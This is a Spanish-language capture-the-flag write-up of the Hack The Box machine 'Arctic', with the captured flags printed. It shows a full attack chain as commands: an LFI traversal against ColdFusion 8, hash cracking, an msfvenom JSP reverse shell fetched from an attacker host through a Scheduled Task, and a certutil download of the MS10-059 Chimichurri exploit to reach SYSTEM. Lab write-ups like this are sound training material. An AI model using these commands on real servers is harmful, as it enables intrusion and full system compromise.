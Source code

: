 # Hack The Box — Arctic (Windows, Easy) · Write-up (ES)

**Objetivo**: Obtener `user.txt` y `root.txt` en *Arctic* explotando ColdFusion 8 y escalando a SYSTEM con MS10-059 (*Chimichurri*).  
**IP**: `10.129.130.255` · **Fecha**: 2025-09-08 03:12:25

---

## Resumen rápido
- **Servicios**: `135/tcp` y `49154/tcp` (MSRPC), `8500/tcp` (**JRun Web Server / ColdFusion 8**).  
- **Foothold**: LFI en `enter.cfm` → extraer `password.properties` → crackear SHA-1 (`happyday`) → entrar al **ColdFusion Administrator** → **Scheduled Task** que descarga y guarda un **JSP reverse shell** → shell como usuario (`tolis`).  
- **PrivEsc**: **MS10-059** (*Chimichurri*) → **NT AUTHORITY\SYSTEM**.  
- **Flags**:  
  - `C:\Users\tolis\Desktop\user.txt` → `2c0a8a1abc53b21e740e54bc6b9f4d49`  
  - `C:\Users\Administrator\Desktop\root.txt` → `331c7c9c73134ec4eb19d713df471eaf`

> El puerto **8500** es **muy lento** (30–60 s por request). Usar `curl -I` y `--max-time` ayuda.

---

## 1) Recon

```bash
# Full scan (conservador para evitar drops)
nmap -p- -sS -n -Pn -T3 --min-rate 200 --max-retries 3 10.129.130.255 -oA scans/full

# Servicios
nmap -sC -sV -p135,8500,49154 -n -Pn 10.129.130.255 -oA scans/serv
# 8500/tcp open  http  JRun Web Server (ColdFusion 8)
```

Comprobaciones web:
```bash
curl -I --max-time 75 http://10.129.130.255:8500/CFIDE/
curl -I --max-time 75 http://10.129.130.255:8500/cfdocs/
```

---

## 2) Foothold — LFI → Admin → Scheduled Task → JSP

### 2.1 LFI para `password.properties`
```bash
curl -s "http://10.129.130.255:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en" | tee password.properties

grep -i '^password=' password.properties | cut -d= -f2 > cf.hash
```

Crack del SHA-1:
```bash
sudo apt update && sudo apt install -y wordlists
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt cf.hash
john --show cf.hash
# → happyday
```

> Alternativa sin crack: calcular `hex_hmac_sha1(salt, sha1_hex(password))` con el `salt` del form y pegar el HMAC como contraseña (desactivando el JS del form).

### 2.2 Login al **ColdFusion Administrator**
```
http://10.129.130.255:8500/CFIDE/administrator/
```
**Password**: `happyday`

### 2.3 Preparar reverse shell JSP
```bash
ip -4 addr show tun0 | awk '/inet /{print $2}' | cut -d/ -f1
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<TU_IP_TUN0> LPORT=443 -f raw -o shell.jsp
python3 -m http.server 80
rlwrap nc -lvnp 443
```

### 2.4 Scheduled Task para guardar el JSP en el webroot
En el panel: **Debugging & Logging → Scheduled Tasks → New**  
- **Task Name**: `revjsp`  
- **URL**: `http://<TU_IP_TUN0>/shell.jsp`  
- **Save output to a file**: ✔  
- **File**: `C:\ColdFusion8\wwwroot\rev.jsp` *(o `...\CFIDE\rev.jsp`)*  
- **Path is absolute**: ✔ → **Run**

Disparo:
```bash
curl --max-time 75 "http://10.129.130.255:8500/rev.jsp"
# o: http://10.129.130.255:8500/CFIDE/rev.jsp
```

**Plan B (si no hay salida a Internet)** — *Upload FCKeditor*:
```bash
curl -s -X POST -F "newfile=@shell.jsp" \
 "http://10.129.130.255:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/"
curl --max-time 75 "http://10.129.130.255:8500/userfiles/file/shell.jsp"
```

### 2.5 User flag
```cmd
type C:\Users\tolis\Desktop\user.txt
```

---

## 3) PrivEsc — **MS10-059 (Chimichurri)**

### 3.1 Confirmación
```cmd
systeminfo
# Windows Server 2008 R2 build 7600 (sin hotfixes) → vulnerable
```

### 3.2 Descarga y ejecución
En Kali:
```bash
python3 -m http.server 80
rlwrap nc -lvnp 5555
```
En la víctima:
```cmd
cd C:\Windows\Temp
certutil -urlcache -f http://<TU_IP_TUN0>/Chimichurri.exe C:\Windows\Temp\chim.exe
C:\Windows\Temp\chim.exe <TU_IP_TUN0> 5555
```
> Si `certutil` “descarga” pero el archivo no aparece, limpiar cache y usar **ruta absoluta**. Alternativas: PowerShell, BITSAdmin o SMB (`impacket-smbserver`).

### 3.3 Root flag
```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 4) Limpieza
```cmd
del C:\Windows\Temp\chim*.exe
del C:\ColdFusion8\wwwroot\rev.jsp
# Borrar Scheduled Task desde el CF Admin
```

---

## 5) Troubleshooting breve
- **:8500 lento** → requests mínimas, `--max-time` y `curl -I`.  
- **404 en /CFIDE/rev.jsp** → guardá en `wwwroot` y probá `/rev.jsp`.  
- **Sin egress** → usa upload FCKeditor.  
- **Reverse no conecta** → probá puertos 443/80/8080.  
- **certutil “OK” sin archivo** → usar ruta absoluta o cache copy.  

---

## 6) Checklist (para Obsidian)
- [ ] Nmap full + servicios  
- [ ] Confirmar `CFIDE/` y `cfdocs/`  
- [ ] LFI `password.properties`  
- [ ] Crack → `happyday`  
- [ ] Login CF Admin  
- [ ] Scheduled Task → `rev.jsp`  
- [ ] Reverse (user)  
- [ ] `systeminfo`  
- [ ] *Chimichurri* → SYSTEM  
- [ ] `user.txt` y `root.txt`  
- [ ] Limpieza
